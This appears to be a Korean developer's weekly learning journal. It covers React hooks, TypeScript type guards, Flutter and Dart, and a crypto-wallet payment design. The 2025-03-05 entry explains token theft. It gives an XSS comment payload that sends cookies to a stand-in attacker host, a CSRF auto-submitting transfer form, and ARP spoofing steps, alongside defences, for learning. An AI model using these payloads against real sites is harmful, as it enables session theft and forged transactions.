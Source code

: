 # Today I Learned

## 목차

- [Week 1 (2025-03-03 ~ 2025-03-07)](#week-1-2025-03-03---2025-03-07)
- [Week 2 (2025-03-10 ~ 2025-03-14)](#week-2-2025-03-10---2025-03-14)

---

## Week 1 (2025-03-03 ~ 2025-03-07)

<details>
<summary>2025-03-04 TUE</summary>

### useState

props를 부모에게 받았을 경우 자식 컴포넌트는 무조건 리렌더링됨. (state가 변경되지 않아도 리렌더링이 될수도 있음)

**리액트 리렌더링 조건**
>1. state 변경 시 리렌더링
>2. props 변경 시 리렌더링
>3. 부모 컴포넌트 리렌더링 발생 시 자식 컴포넌트 리렌더링

부모 컴포넌트 리렌더링 발생 시 모든 자식 컴포넌트도 리렌더링되는 것은 부하가 될 수 있다.

~~그러므로 props로 연결된 부분을 없애고 하위 컴포넌트에서 정의를 하는게 나을 수 있다.~~

⇒ 이런 경우 useMemo훅, useCallback, React.memo을 사용해 캐싱할 수 있다.

**setState의 활용**

state의 set 상태변화함수는 상태를 함수를 활용해 변경하는 역할을 한다. onChange나 onClick같은 이벤트리스너와 조합하면 사용자 입력에 따라 상태를 변경하는 기능을 만들 수 있다.

++ state 변수에는 객체도 등록이 가능함. 이를 통해 여러개의 state 변수를 관리하는 것보다 안전하게 관리가 가능함.

상태 변경 시에 다른 부분은 그대로 유지하고 한 부분만 변경하도록하여 적용한다.

- 스프레드 연산자 : …객체명을 통해 객체의 요소들을 한번에 표현할 수 있다.
- 자바스크립트의 문법으로 객체 속성에 동적으로 접근할 때 [벼]

### useMemo

useMemo 훅은 정의한 함수의 의존성 배열 값이 변경되지 않는 경우 이전 실행 결과를 재사용한다. 그래서 특정 컴포넌트의 리렌더링을 막을 수 있다. 

**단, useMemo는 메모리 사용량 증가로 이어지며 성능이 떨어질수도 있다.** 

**또한 메모이제이션 값이 너무 많아지면 관리가 어렵다.** 

### useCallback

useCallback 훅은 함수를 메모이제이션한다. 특정 함수의 실행 결과를 재사용한다.

### 의존성 배열

- 불필요한 재실행을 막고 싶다면 꼭 필요한 값만 의존성 배열에 넣어야 한다.
- 빈 배열을 넣으면 최초 1회만 실행됨. 그 이후로는 변경되는 값이 없기 때문에 다시 실행되지 않음.
- 의존성 배열을 생략하면 useMemo, useEffect 등의 훅이 매번 실행됨 → 최적화 효과가 없음

### useEffect와 useMemo

| Hook | 사용 목적 | 실행 시점 | 반환 값 | 주의할 점 |
| --- | --- | --- | --- | --- |
| `useEffect` | 부수 효과 (Side Effects) 처리 | 렌더링 후 (After Render) 실행 | `undefined` (리턴값 없음) | 비동기 작업, DOM 조작 등에 사용 |
| `useMemo` | 값(Value) 메모이제이션 | 렌더링 중 (During Render) 실행 | 캐싱된 값(Value) | 연산이 무거운 경우에만 사용해야 성능 최적화됨 |

useMemo는 렌더링 도중 실행되며 비동기 작업 불가능

```
💡 useMemo 프로세스

의존성 배열에 있는 값이 변경 → 컴포넌트가 다시 렌더링 → 그 렌더링 과정 중에 useMemo가 실행
```

### useRef

이전 값과 새로운 값을 연결하고, 렌더링과는 무관하게 값이 유지되어야 할 때 사용됨.

```tsx
const a = useRef(초기값); // ref 객체 선언
a.current // ref 객체의 상태 조회
```

리렌더링을 해도 ref객체의 상태는 유지되고 ref객체의 상태가 변해도 렌더링이 발생하지 않는다는 특징을 갖고 있다.

## 번외

### 타입스크립트의 type guard

이전까지 타입스크립트를 사용하면서 `any` 만 안쓰면 되겠지 하며 assertion type 일명 `as` 키워드를 자주 사용해왔다. 그 이유는 null이 올 수 있더라도 변수의 타입이 string 타입이라는 개인적인? 확신이 있었기 때문이다. 

JS에서는 타입 좁히기(type narrowing)가 타입을 더 쉽게 예측할 수 있는 작업이었고, `as` 키워드 또한 type narrowing 중 하나의 수단이라고 생각했다. 

그런데 공부하다보니 이 `as` 의 타입 확정은 오히려 타입스크립트의 타입 검사 기능을 포기하겠다는 것이나 다름없다고 한다. 그 이유는 개발자가 변수에 어떤 타입이 올지 확실히 인지했다 하여도 `as` 선언에서 실수를 한다면 런타임에러가 터지기 전까지 인지할 수 없기 때문이다.

그 이유는 다음과 같다.

1. 자신은 반드시 string 타입이 올 것이라 생각해 as string을 작성함.
2. 하지만 그것은 개발자의 착각일 가능성이 있거나 요구사항 변경에 따라 변하게 될 가능성이 있음
3. 그렇게 컴파일 시점을 자연스럽게 통과하더라도 런타임에서 오류가 터질 수 있음

비유하자면 이러한 방식은 컴파일러에게 “내가 이 타입을 너보다 더 잘알고있음. 믿어주셈 ㅇㅇ” 라고 말하는 것과 같다. 어림도 없다.

### **결론**

as보다 type narrowing의 올바른 기법은 null 체크 혹은 typeof나 instanceof를 사용한 type guard 기법이다. 이러한 type guard 기법은 무조건 타입을 확정짓는 as와 달리 `타입 검사를 통과하면 타입이 확정` 되기 때문에 옳은 방식이다.

### 자바의 instanceof

> </br>  
> typeof나 instanceof를 사용한 type narrowing은 자바에서는 지양해야 한다. 왜냐하면 instanceof 체크가 필요한 부분이 있다면 그 부분은 객체지향적으로 분리가 필요한 부분일 가능성이 높기 때문이다.
> 
> 1. OCP 위반 : 새로운 타입이 추가될 때마다 instanceof 체크를 변경해야 함.
> 2. TDA(tell don’t ask) 위반: 데이터를 요구하지 않고 객체가 자연스럽게 상호작용하도록해야함. 데이터를 요구하는 행위는 두 함수의 데이터 결합이 이뤄졌다는 뜻임
> 3. 다형성 위반 : instanceof 체크는 강제로 그 타입인 상태일 때의 행동을 규정하므로 미리 설정해둔 동작을 벗어난 동작을 함.
> </br>
</details>

<details>
<summary>2025-03-05 WED</summary>

# 토큰 탈취가 일어나는 과정과 대응방안을 설명해주세요
토큰 탈취가 일어나는 과정, 즉 공격자가 토큰을 탈취하는 방법에는 여러가지가 있습니다. 

## XSS(Cross Site Scripting) 공격

XSS는 보안이 취약한 웹사이트에 악의적인 스크립트를 삽입하여 사용자 브라우저에서 실행되도록 하는 공격입니다.

1. 취약점이 있는 웹사이트의 특징?
    
    다음과 같은 웹사이트는 취약점이 있을 수 있습니다.
    
    - 입력값 검증 X : 서버에서 위험한 입력을 검증한다면 사전 방지할 수 있음
    - innerHTML을 사용해 DOM을 직접 조작하는 웹사이트 : innerHTML은 문자열을 HTML로 바꾸기 때문에 이러한 스크립트에 더욱 취약함
    - eval 함수를 사용하는 웹사이트(eval은 입력을 코드로 실행할 수 있는 JS 함수임)
    - HttpOnly 쿠키 미사용 : HttpOnly가 적용된 쿠키는 접근 불가능하므로 보호될 수 있음
    
    해커는 이러한 취약점이 있는 웹사이트에 스크립트를 삽입합니다. 해커와 유저는 서로 다른 클라이언트이기 때문에 서로에게 영향을 주지는 않지만 **해커가 조작한 데이터가 DB에 삽입되는 경우**는 다릅니다.
    

1. 공격자 스크립트의 동작 과정
    
    EX) 해커가 댓글을 작성한 후 그 스크립트가 유저의 PC에서 동작하는 과정
    
    1. 댓글 스크립트
    
    ```tsx
    좋은 글이네요! <script>var img = new Image(); img.src = "https://hacker.com/steal?cookie=" + document.cookie;</script>
    ```
    
    1. 유저 측에서 확인되는 스크립트
    
    ```tsx
    <div class="comment">
      좋은 글이네요! <script>var img = new Image(); img.src = "https://hacker.com/steal?cookie=" + document.cookie;</script>
    </div>
    ```
    
    이런 식으로 서버를 경유해서 스크립트가 저장됩니다.
    
    클라이언트가 이 사이트에 접근했을 때 해커의 사이트로 쿠키와 함께 이미지 요청을 발송하게 됩니다.
    

 

## CSRF 공격

1. **사용자 인증**
    
    사용자가 웹사이트에 로그인하여 인증 쿠키를 받습니다.
    
2. **인증 상태 유지**
    
    브라우저는 해당 웹사이트에 대한 쿠키를 저장하고 유지합니다.
    
3. **악성 사이트 방문**
    
    사용자가 로그인 상태를 유지한 채로 공격자의 웹사이트나 악성 이메일 링크를 클릭합니다.
    
4. **위조된 요청 실행**
    
    공격자의 사이트는 자동으로 대상 웹사이트에 요청을 보내는 코드를 실행합니다. 예를 들면:
    
    - 자동 제출되는 폼
    - 이미지 태그를 이용한 GET 요청
    - JavaScript를 이용한 요청
5. **브라우저의 쿠키 전송**
    
    브라우저는 요청과 함께 대상 웹사이트에 대한 인증 쿠키를 자동으로 전송합니다.
    
6. **서버의 요청 처리**
    
    대상 웹사이트 서버는 유효한 인증 쿠키를 받았으므로 요청이 합법적인 사용자로부터 온 것으로 간주하고 처리합니다.
    

EX) 악성 웹사이트의 HTML에서 사용자의 쿠키를 활용해 요청을 보내는 경우

```tsx
<!-- 악성 웹사이트의 HTML -->
<body onload="document.getElementById('transfer-form').submit()">
  <form id="transfer-form" action="https://bank.example.com/api/transfer" method="POST">
    <input type="hidden" name="recipient" value="attacker">
    <input type="hidden" name="amount" value="10000">
  </form>
</body>
```

위와 같은 경우 해커가 미리 지정한 value 값으로 계좌이체를 진행하게 됩니다.

### CSRF 방어 방법

1. csrf 토큰을 사용 : 서버에서 생성한 랜덤 토큰을 요청마다 포함시켜 same-site임을 검증
2. same-site 쿠키 속성 : 같은 same site 요청인 경우에만 쿠키 전송
3. Origin 헤더 검증 : CORS를 통해 허용된 Origin 헤더인 경우에 요청을 허용.

## MITM(Man-in-the-Middle) 공격

흔히 말하는 중간에서 공격자가 데이터 전송을 가로채는 기법입니다.

HTTPS로 암호화된 데이터 전송이 아닌 경우 중간에 헤더에 담긴 토큰을 탈취한 후 해석하는 것이 가능합니다.

1. 공격자는 통신 경로(네트워크)에 침입합니다.
    - ARP 스푸핑: 로컬 네트워크의 캐시를 조작해 피해자의 트래픽을 자신에게 리디렉션 하도록 설정함(MAC주소와 IP주소간의 매핑을 조작)
    - DNS 스푸핑: DNS 서버를 조작해 해커의 IP로 요청을 보내도록함
2. 트래픽 가로채기
    
    **ARP 스푸핑**
    
    - 공격자는 로컬 네트워크에서 지속적으로 위조된 ARP 메시지를 브로드캐스트합니다.
    - 이 메시지는 "라우터의 IP 주소는 공격자의 MAC 주소와 연결되어 있다"고 알립니다.
    - 또한 "대상 컴퓨터의 IP 주소는 공격자의 MAC 주소와 연결되어 있다"고 라우터에 알립니다.
    - 피해자의 컴퓨터와 라우터는 ARP 캐시를 업데이트합니다.
    - 결과적으로 피해자와 라우터 사이의 모든 트래픽이 공격자의 컴퓨터를 통과하게 됩니다
</details>

<details>
<summary>2025-03-06 THU</summary>

## 플러터 VS 리액트네이티브
### 크로스 플랫폼 앱이란?
크로스 플랫폼 앱은 하나의 소스 코드로 Android, IOS에서 똑같이 작동하는 앱을 의미합니다.
네이티브 앱과 대조되는 개념입니다.
기존의 네이티브 앱은 Android, IOS가 각각 호환이 안되기 때문에 두개의 앱을 만드는 것과 다름이 없었습니다. 근데 크로스 플랫폼 앱 하나가 있다면 두 운영체제를 동시에 개발하고 운영할 수 있다는 장점이 있습니다.

### 리액트 네이티브란?
JS와 React를 기반으로 만들어졌기 때문에 기본 지식을 알고 있는 사람이라면 RN을 시작할 수 있습니다.
리액트 네이티브는 런타임 중에 JS 브릿지를 생성하고 JS 코드를 네이티브 코드로 변환해서 컴파일함. 그래서 JS의 Object-C API로 IOS 컴포넌트를 만들고 자바 API로 안드로이드 컴포넌트로 렌더링할 수 있음.

### 리액트 네이티브의 차별점?
- 리액트 네이티브는 CodePush라는 시스템을 사용해 기존 출시한 앱을 원격으로 업데이트할 수 있습니다.
- 단, 프로젝트의 리액트 네이티브 버전 업데이트가 어렵습니다.
- 범용적인 개발 언어!(JS/TS)
- 운영체제 별 순정 UI를 사용함.

### 웹 개발자의 접근성이 정말 낮은가?
- 여러 문법들과 Hook, 라이프 사이클은 React와 동일하지만 RN은 모바일이기 때문에 안드로이드, IOS에 대한 기초적인 지식이 필요합니다.

### 플러터란?
Flutter는  ios, Android, 데스크탑, 웹앱을 구현하는 크로스 플랫폼 프레임워크입니다. 다소 생소한 Dart 언어를 사용하는데 플러터는 RN과 달리 별도의 브릿지가 필요없기 때문에 성능이 우수합니다.

### 브릿지가 없지만 Flutter는 어떻게 여러 플랫폼을 지원할까?
- Dart 언어는 앱이 빌드되기 전에 코드를 미리 컴파일하는 Ahead-of-time(AOT) 전략을 지원합니다. 컴파일 타임에 Dart 코드를 네이티브 코드로 컴파일하기 때문에 브릿지가 필요없이 각 플랫폼과 직접 통신할 수 있습니다. 그래서 앱 시작 속도도 빠릅니다.
- 또한 자체적인 위젯을 canvas 위에 직접 렌더링하기 때문에 여러 플랫폼에 동일한 UI를 제공할 수 있습니다. (자체 UI)
- 개발환경도 다양할 뿐더러 다양한 빌드 모드를 지원함

### 플러터의 차별점?
- 플러터의 커뮤니티가 큼
- 자체 디자인 언어를 가진 커스텀 UI를 사용한 앱을 만듬
- 프로젝트의 플러터 버전 업데이트가 쉬움 (아마 Dart는 JS/TS와 달리 자체 의존성을 많이 사용하기 때문인듯. RN은은 open source 의존성을 사용해서 어려운 듯)

</details>

---

## Week 2 (2025-03-10 ~ 2025-03-14)

<details>
<summary>2025-03-10 MON</summary>
Dart는 코드를 여러 운영체제에 맞도록 컴파일 해줌. 

- jit(just in time) : aot와 같이 컴파일 방식은 빌드에 오래 걸리므로 개발 중에는 변경을 확인하는 경우 좋지 않음. 이 때 JIT를 통해 코드를 화면 상으로 바로 확인할 수 있음. 즉, 개발 중에는 JIT 컴파일러를 사용하고 배포 시에는 AOT 컴파일러를 사용함
- aot(ahead of time) : 코드를 바이너리로 컴파일한 후에 배포함.

또한 Dart는 null safety함. 그리고 다른 언어로 컴파일할 수 있다는 장점도 있음. 즉, 여러 플랫폼에 적용하기 좋은 언어임.

Dart와 Flutter는 모두 구글에서 만들어졌기 때문에 서로 잘 맞고 서로를 보완하는 방식으로 발전하는 중임. 이것은 다른 프레임워크에 비해 Flutter가 가진 장점임.

> 기본 플랫폼: 모바일 및 데스크톱 장치를 대상으로 하는 앱의 경우 Dart에는 **JIT(Just-In-Time) 컴파일** 기능이 있는 Dart VM과 기계 코드 생성을 위한 **AOT(Ahead-of-Time) 컴파일러**가 모두 포함되어 있습니다.
> 
> 
> 웹 플랫폼: 웹을 대상으로 하는 앱의 경우 Dart는 개발 또는 프로덕션 목적으로 컴파일할 수 있습니다. 웹 컴파일러는 Dart를 JavaScript로 변환합니다.
> 

쉽게 말해 짜스나 파이썬은 인터프리터 언어의 특성 때문에 앱 프로덕션 환경에서 컴파일 언어에 비해 성능 차이가 있음. 대신 개발 환경에서 매우 빠른 피드백이 가능함. 반대로 자바같은 컴파일 언어는 이미 컴파일된 상태에서 앱을 실행하기 때문에 프로덕션 환경에서 속도가 비교적 빠른 편임. 반대로 개발할 때는 매번 빌드하느라 시간이 다 가기 마련인데.. 아무튼 이걸 짬뽕한 마치 링크드리스트이면서 어레이리스트인듯한 무적같은 포지션을 갖게 됨.(아이디어 좋다)

*JIT 컴파일러는 많은 언어에서 사용되며 런타임에서 핫스팟 최적화 방식을 통해 실행시간을 엄청나게 줄여놨다고 한다. JIT 컴파일러는 프로그램의 실행 시점에 코드를 분석하고 최적화한다. 그래서 현대 어플리케이션은 언어적 차이가 많이 줄어들었다.

### main 함수

- main함수에서 내가 쓴 코드가 호출됨. 반드시 main함수가 있어야 함
- Dart는 또한 세미콜론을 반드시 사용해야 함
- Dart에서는 세미콜론도 하나의 기능을 하는데 세미콜론을 제외함으로서 동작이 달라질 수 있음

### var 키워드

- 암시적 타입
    
    var 타입을 선언하는데 이 부분은 자바스크립트처럼 타입을 추론하고 선언해줌
    
    단 js와 차이점으로는 변수의 타입이 한번 선언되면 그 이후에 다른 타입을 집어넣을 수 없음.
    
- 명시적 타입
    
    String 처럼 명시적으로 선언할 수 있음
    

명시를 하는 것이 반드시 좋은 것은 아니고 Dart 스타일 가이드에서는 지역 변수에는 `var`를, 공개 API나 클래스 필드에는 명시적 타입을 권장함. (지역 변수는 외부에서 타입을 명시한 경우 내부에서 타입 추론이 거의 정확함. 그래서 타입을 따로 명시할 필요가 적으며 코드가 간결해지고 중복된 정보를 줄일 수 있음. 또한 구체적인 타입에 의존하지 않아 추상화 수준을 높게 유지할 수 있음)

*DRY(Don’t Repeat Yourself) 원칙 : 타입 정보를 중복으로 작성하지 않게 함. (추상화 수준 유지, 중복 감소, 변경 감소)

```java
List<String> list = new ArrayList<>(); // 삽입하려는 객체의 타입 정보를 중복 명시하지 않음
```

또한 var변수는 업데이트가 가능함

### dynamic type

dart에서는 타입에 대해 숨통을 틔워준다. `var name;` 이런 식으로 선언하는 경우 name 변수는 어떠한 변수도 담을 수 있다.(컴파일 에러도 안뜸) 근데 권장하지 않는 이유는 역시나 불확실성 때문임. 또한 변수의 타입이 확실하지 않기 때문에 변수 타입이 뭔지 물어봐야 하며 그렇지 않으면 멤버 함수나 멤버 변수를 사용할 수 없음. (TDA원칙 위반: 객체에게 데이터나 타입을 요구함.)

혹은 `dynamic name;` 요런 방식으로 다이나믹 타입을 선언할 수 있음. 

### null safety

- dart는 null에 대한 안정성. 즉, 런타임에서 null 발생 시 오류를 일으킴. null safety는 좋지만 null이 표현하는 ‘아무것도 없음’ 이 필요한 때도 있음.이 경우 `String? name = "name";`  타입 스크립트처럼 ?를 붙여주면 null을 포함할 수 있음.

</details>

<details>
<summary>2025-03-11 TUE</summary>

# 지갑 관련 설계

## 지갑 연동 프로세스

**총 옵션 : 3가지(~~Web3Auth~~, WalletConnect, Metamask SDK)**

3가지 옵션을 제공해서 사용자가 편한 방식을 선택하게 하는게 목표!

**지갑을 최대한 편하게 연동할 수 있도록 구현하기**

1. WalletConnect 프로토콜 기본 구현(오픈 소스 프로토콜. 매우 높은 트래픽이 필요한 경우 릴레이 서버를 구현해야 하지만 그렇지 않은 경우 재단에서 제공하는 무료 공용 릴레이 서버를 사용할 수 있음→ver.2인 경우)
2. MetaMask SDK 직접 연동
3. ~~지갑이 없는 사용자 : 간편 로그인(Web3Auth) 옵션 제공(자체 지갑 생성)~~

***문제는 자체 지갑을 생성하는 경우. 이 경우 지갑에 입금하는 것도 구현해야함. ….. 후순위로 미뤄두도록 하자**

## 지갑 정보 조회 프로세스

- 앱에서 직접 조회 vs 백엔드를 거쳐 조회
- 보안은 역시 백엔드. 특히 조회는 개인키 교환없이 주소만으로 조회가 가능하기 때문에 안전함.(주소로는 개인키를 파악할 수 없음)

## 트랜잭션 쓰기 작업 방식 선택

1. 외부 지갑 앱으로 리디렉션 : 외부 지갑 앱을 호출함. 보안성이 높지만 사용자 경험 감소
2. SDK를 통해 인앱 서명 : 앱 내에서 트랜잭션 서명을 진행함. (best긴 할 듯??) → **사용자 경험 증대를 통해 사용자 이탈률 감소, 구독 전환율 증가를 노림**

## 구독 결제 프로세스

1. **지갑 연결**: 사용자가 앱에서 지갑 연결 (지갑 연동 프로세스에서 진행)
2. **구독 선택**: 사용자가 구독 플랜 선택
3. **결제 요청**: 앱에서 트랜잭션 생성
4. **지갑 승인**: 사용자가 지갑에서 트랜잭션 승인 (인앱 서명으로 변경)
5. **트랜잭션 확인**: 블록체인에서 트랜잭션 확인
6. **구독 활성화**: 백엔드에서 확인 후 서비스 활성화

**백엔드 트랜잭션 확인 방법**

- 트랜잭션 리스닝 방식이 있음.(이벤트 기반)

## 고려사항

- 트랜잭션 확인 지연 : 트랜잭션을 확인하는데 걸리는 시간 동안 **로딩 중** 적용
- 가스비 부족, 네트워크 오류, 각종 오류 등으로 트랜잭션 지연이나 실패될 수 있음. 이런 경우 상태를 꾸준히 모니터링하고 사용자에게 피드백을 제공하는게 중요할 듯
- 이중 확인 : 트랜잭션 해시와 실제 컨트랙트 상태를 모두 확인하고 구독 상태 변경

## 결론

- 프론트엔드 팀 : **쓰기 작업은 앱에서 모두 진행**해야 함(서명 필요함).
- 백엔드 팀 : **조회 작업은 무조건 백엔드를 통해** 적절한 처리 후 전달받기 + 쓰기 작업 발생 시 이벤트 catch! 후 DB 업데이트 및 구독 서비스 활성화. 조회 작업을 위해 주소를 저장해둬야 할 듯
</details>